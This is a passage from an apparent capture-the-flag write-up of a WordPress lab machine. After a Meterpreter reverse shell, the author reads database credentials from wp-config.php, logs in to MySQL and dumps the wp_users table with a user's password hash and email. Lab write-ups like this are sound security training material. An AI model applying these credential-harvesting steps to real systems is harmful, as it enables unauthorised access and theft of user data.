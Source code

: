 Once I had a Meterpreter reverse shell, I began enumerating the system and found an `user.txt` file: 
```bash
meterpreter > cat user.txt
You won't find what you're looking for here.

TRY HARDER
```

## Privilege Escalation bjoel

I looked for ways to escalate privileges and found the `wp-config.php` file, which contained the database credentials:
```bash
  // ** MySQL settings - You can get this info from your web host ** //
  /** The name of the database for WordPress */
  define('DB_NAME', 'blog');

  /** MySQL database username */
  define('DB_USER', 'wordpressuser');

  /** MySQL database password */
  define('DB_PASSWORD', 'L[removed]@');

  /** MySQL hostname */
  define('DB_HOST', 'localhost');
```

I was able to log in to the MySql database and retrieved the user hash of bjoel:
```bash
www-data@blog:/var/www/wordpress$ mysql -u wordpressuser -p
mysql> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | information_schema |
  | blog               |
  +--------------------+
mysql> show tables;
  +-----------------------+
  | Tables_in_blog        |
  +-----------------------+
  | wp_commentmeta        |
  | wp_comments           |
  | wp_links              |
  | wp_options            |
  | wp_postmeta           |
  | wp_posts              |
  | wp_term_relationships |
  | wp_term_taxonomy      |
  | wp_termmeta           |
  | wp_terms              |
  | wp_usermeta           |
  | wp_users              |
  +-----------------------+
mysql> select * from wp_users;
  +----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
  | ID | user_login | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key | user_status | display_name  |
  +----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
  |  1 | bjoel      | $P$[removed]                       | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     |           0 | Billy Joel    |
```